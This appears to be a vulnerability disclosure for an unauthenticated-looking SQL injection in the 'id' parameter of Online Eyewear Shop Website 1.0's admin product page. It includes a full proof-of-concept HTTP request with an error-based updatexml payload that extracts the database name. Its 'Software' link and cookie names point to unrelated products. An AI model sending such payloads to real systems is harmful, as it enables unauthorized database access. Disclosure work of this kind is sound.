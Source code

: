 ## Affected version: 
Online Eyewear Shop Website - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/search?q=AC+Repair+and+Services+System

## Vulnerability File:
/oews/admin/?page=products/manage_product

## Description:
Online Eyewear Shop Website 1.0 is vulnerable to unrestricted SQL injection attacks via /oews/admin/?page=products/manage_product, the controllable parameter is: id. This function brings the id parameter into the SQL statement for execution without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
GET /oews/admin/?page=products/manage_product&id=1%27%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=32cto35al185bgmn489u9arakg; __insuarance__logged=1; __insuarance__key=PO3ZYU67VV15JHRDZ5SJ
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 192.168.1.23
Priority: u=1
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/59ba8557-1ca9-4642-8bc7-a9efa0e03df1)

## code analysis:

The $id parameter in the manage_product.php file is controllable and can be directly brought into the database to execute SQL statements.

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/40f17833-6626-48d8-868b-b7a4c1092018)


